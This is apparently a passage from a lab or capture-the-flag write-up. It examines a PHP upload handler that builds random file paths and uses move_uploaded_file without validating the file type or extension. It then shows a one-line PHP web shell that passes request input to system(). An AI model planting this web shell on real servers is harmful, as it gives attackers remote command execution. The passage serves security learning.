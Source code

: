 </div>

The `makeRandomPathFromFilename` function extracts the extension from the filename and passes it to another function `makeRandomPath`, which again generates a random filename using `genRandomString` function and appends it with the base directory and the extension, then checks whether the generated path already exists. If the generated path already exists, it again generates a new path else it returns the path.

<figure><img src=".gitbook/assets/image (65).png" alt=""><figcaption></figcaption></figure>

After the successful generation of the target\_path, the file size limit is verified and also it verifies that the file is successfully moved to another location successfully using the `move_uploaded_file` php function.

<figure><img src=".gitbook/assets/image (66).png" alt=""><figcaption></figcaption></figure>

We can see that there is no validation is performed on the input file type or extension, so I tried to upload a simple php reverse shell:

```php
// rev.php
<?php system($_REQUEST['cmd']); ?>
```

<div>

<figure><img src=".gitbook/assets/image (67).png" alt=""><figcaption></figcaption></figure>
